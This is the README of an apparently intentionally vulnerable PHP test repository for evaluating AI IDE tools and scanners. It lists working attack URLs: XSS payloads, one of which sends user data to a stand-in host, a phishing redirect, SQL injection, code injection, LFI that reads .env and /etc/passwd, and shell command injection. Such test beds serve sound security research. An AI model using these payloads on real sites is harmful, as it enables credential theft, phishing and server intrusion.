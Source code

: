 # Security Testing PHP Codebase

## Overview
This repository contains intentionally vulnerable code designed to test AI-powered IDE tools and security scanners. The codebase serves as a testing ground to evaluate the effectiveness of various security analysis tools in detecting vulnerabilities.

## Purpose
- Test AI-powered IDE tools' ability to detect security vulnerabilities against PHP codebase. You can prompt the Agent to `What are the vulnerabilities in my code`.
- Evaluate security scanners' effectiveness in identifying common security issues.
- Provide a controlled environment for security testing.
- Serve as a reference for understanding common security vulnerabilities.
- Continuously expand with new vulnerabilities and security test cases over time.
- Demonstrate how sensitive environment variables such as in `.env` files can be exposed.

## Author
Created by Weng Fei Fung

## Usage
This repository is intended for:
- Security researchers
- AI tool developers
- Security testing professionals
- Educational purposes


## Setup

Run on a php server locally. This has been tested on PHP version 8.3.12. You can find your PHP version by running `php --version`. For the example vulnerabilities, you can setup Mamp and have this app folder as `hacks` at the root htdocs and set port to 8888, otherwise adjust the example vulnerability url's as appropriately.

## Example Vulnerabilities
- http://localhost:8888/hacks/echo/?name=%3Cscript%3Ealert(%22You%27re%20hacked%20by%20Weng%20Hackers%20Group!%22);%3C/script%3E
    - Cross-site scripting (XSS)
    - Here exploited to inject into URL's that users share with others a scary message. It's usually to ruin the reputation of a website or to boast that they're hacked by you.
    ![](README-assets/sqlinjection-victim.png)
    - Classification: 
        - CAPEC	19
        - CWE	79
        - WASC  8
        - OWASP 2021 A3
- http://localhost:8888/hacks/echo/?name=John%3Cscript%3Edocument.addEventListener(%22DOMContentLoaded%22,()=%3E{const%20d=document.createElement(%22div%22);d.innerHTML=`%3Cbutton%20onclick=%22fetch(%27https://domain.com/api/hacked%27,{method:%27POST%27,body:JSON.stringify({name:%27${name}%27})});%22%3EVerify%20you%20are%20human%3C/button%3E`;document.body.prepend(d)});%3C/script%3E
    - Cross-site scripting (XSS)
    - Here when URL is shared, injects a "Verify you're human" button, but it steals user data stored on the client (could be cookies) and sends it to another server at domain.com/api/hacked/, when the user clicks the button. Notice that is the hacker's server and that the hacker's server must have CORS enabled to accept paylods from other websites.
    - The URL contains a minified code snippet of:
    ```
    document.addEventListener("DOMContentLoaded", () => {
        const div = document.createElement('div');
        div.innerHTML = `<button onclick="fetch('https://domain.com/api/hacked', {
            method:  'POST',
            body: JSON.stringify({name: '${name}'})
        });">Verify you are human</button>`;
        document.body.prepend(div);
    })
    ```
- http://localhost:8888/hacks/echo/?name=hi4;%3Cscript%3Ewindow.location.href=%22https://domain.com%22%3C/script%3E
    - Cross-site scripting (XSS) with Phishing
    - Here when URL is shared, redirects user to hacker's website. Note the hacker could take things further by making the website look similar to the website the url normally opens to, and then tricks the user to logging in, which can easily store the user credentials since the page is on the hacker's server.
- http://localhost:8888/hacks/sql/
    - SQL Injection (SQLi)
    - Here exploited by storing javascript that renders on a comments page. It's usually to ruin the reputation of a website or to boast that they're hacked by you. A hacker can take it further by having the javascript send cookies information about the logged in user to an external server in order to gain their credentials, simply done with fetch and enabling CORS on the hacker's private server.
    ![](README-assets/sqlinjection-hacker.png)
    ![](README-assets/sqlinjection-table.png)
    - Classification: 
        - CAPEC	66
        - CWE	89
        - WASC	19
        - OWASP 2021	A3
- http://localhost:8888/hacks/commands-php/?user-role=admin;phpinfo();
    - Remote Code Execution (RCE)
    - Here exploited to reveal PHP information that can be used for further attacks.
    - Classification: 
        - CAPEC	23
        - CWE	95
        - OWASP 2021	A3
- http://localhost:8888/hacks/open-file/?filepath=../.env
    - Local file inclusion (LFI)
    - Here gained access to .env file for API keys
    - Classification: 
        - CAPEC	252
        - CWE	98
        - WASC	33
        - OWASP 2021 A1
- http://localhost:8888/hacks/open-file/?filepath=%2e.%2f.env
    - Local file inclusion (LFI)
    - Here worked around naive regex security against LFI's `../`
- http://localhost:8888/hacks/open-file/?filepath=../etc/passwd
    - Directory traversal attack (DTA)
    - Here hacker would've broke out of the web document root folder with more `../`'s and accessed the credentials
    - Classification: 
        - CAPEC	126
        - CWE	23
        - WASC	33
        - OWASP 2021	A1
- http://localhost:8888/hacks/commands-shell/grep.php?search=at
    - Baseline use (Not hacked). But will be used to OS command injection
- http://localhost:8888/hacks/commands-shell/grep.php?search=at%20;ls%20.;
    - OS command injection
    - Here gained access to directory still within the web document root folder
    - Injected between grep command and a grep option.
    - Classification: 
        - CAPEC	88
        - CWE	78
        - WASC	31
        - OWASP 2021	A3
- http://localhost:8888/hacks/commands-shell/find.php?search=at;ls%20.;
    - OS command injection
    - Here gained access to directory still within the web document root folder
    - Injected at the end of the find command.
- http://localhost:8888/hacks/commands-shell/find.php?search=at;%20whoami
    - ... Here gained access to username of the PHP server
- http://localhost:8888/hacks/commands-shell/find.php?search=at;%20ps%20aux
    - ... Here gained access to a list of processes running at the server
- http://localhost:8888/hacks/commands-shell/find.php?search=at;%20netstat%20-tuln
    - ... Here gained access to network information
    - `lsof -P` is another way for more network information (Eg. `TCP localhost:5001 (LISTEN)` output telling you a port is listening at the server)
    - `iptables`, `firewalld`, etc to inspect allowed ports.

## Warning
⚠️ **IMPORTANT**: This repository contains intentionally vulnerable code. Do not deploy this code in production environments or expose it to untrusted networks. Use only in controlled testing environments.

## Disclaimer
This code is provided for educational and testing purposes only. The author is not responsible for any misuse or damage caused by the code in this repository.
